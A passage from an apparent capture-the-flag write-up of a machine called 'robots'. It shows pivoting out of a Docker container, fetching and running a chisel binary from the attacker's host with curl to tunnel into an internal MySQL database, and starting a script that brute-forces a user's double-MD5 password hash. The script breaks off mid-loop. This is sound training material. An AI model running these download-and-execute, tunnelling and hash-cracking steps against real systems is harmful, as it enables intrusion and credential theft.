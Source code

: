 ![](gitbook/cybersecurity/images/Pasted%20image%2020250317152505.png)

We found a `.dockerenv` file, this could mean we are inside of a docker environment, let's search `/etc/hosts`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317152549.png)

And it was right, we are inside of a docker container, we can try using [chisel](https://github.com/jpillora/chisel), let's do the following:

```
./chisel server --reverse --port 51234
```

Now, we need to download the chisel binary on our target machine and do this, `wget` is not enabled in the machine so we need to do it by curl, we also need to see where is the db located at so let's do this first:

```
www-data@robots:/tmp$ getent hosts db
172.18.0.3      db
```

```
curl http://10.6.34.159:8000/chisel -o chisel
chmod +x chisel
./chisel client 10.6.34.159:51234 R:3306:172.18.0.3:3306
```

We now receive a connection in our local machine chisel:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317154806.png)

We can now access the db:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317155125.png)

We can find this inside the db:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317155227.png)

We got the password for another user `rgiskard`, the interesting thing in here is that the md5 hash does not coincide with the one registered at the site, so, we need to reconstruct the hash, for this, we must understand the hash, let's go to CyberChef to analyze our hash, let's remember that we set the script account with the date of `01/01/2000`, so we need to do the hash like this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317155600.png)

If we use MD5 again:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317155615.png)

Now, this do match the hash in the db, let's use this python script to reconstruct the hash:

```python
import hashlib
import sys

def find_matching_double_md5(username, target_hash):
    if not username:
        print("Username must be provided")
        return
    
    for day in range(1, 32):
        for month in range(1, 13):
            # Format day and month to ddmm
            ddmm = f"{day:02d}{month:02d}"
            # Concatenate username with ddmm
            combined_string = username + ddmm
```